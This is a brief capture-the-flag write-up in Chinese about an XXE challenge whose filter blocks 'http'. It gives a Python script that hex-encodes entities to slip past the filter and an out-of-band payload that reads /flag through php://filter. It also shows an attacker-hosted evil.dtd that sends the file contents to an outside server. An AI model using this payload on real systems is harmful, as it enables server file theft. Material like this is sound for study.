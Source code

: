 tags:: CTFWEB/XXE

- # 思路
	- XXE,题目过滤了`http`
	- 使用编码绕过
- # Payload
	- ```python
	  url = "http://bf5c4c6a-f49f-446e-95f6-877823a0c621.challenge.ctf.show/"
	  
	  def encode_xml(s):
	      ans = ""
	      for c in s:
	          ans +="&#x{};".format(hex(ord(c))[2:])
	      return ans
	  
	  evil = """
	      <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
	      <!ENTITY % dtd SYSTEM 'http://ca.xxx.xyz:3001/evil.dtd'>
	  
	  """
	  
	  payload = """\
	  <!DOCTYPE updateProfile [
	      <!ENTITY % uguess "{}">
	      %uguess;
	      %dtd;
	      %send;
	  ]>
	  """.format(
	      encode_xml(evil)
	  )
	  
	  r = base_post(url, data = payload)
	  
	  print(r.text)
	  ```
	- 服务器
		- ```
		  root@VM-a1YYrO2dEe63:~/test# cat evil.dtd
		  <!ENTITY % all
		      "<!ENTITY &#x25; send SYSTEM 'http://ca.xxx.xyz:3001/?data=%file;'>"
		  >
		  %all;
		  ```
-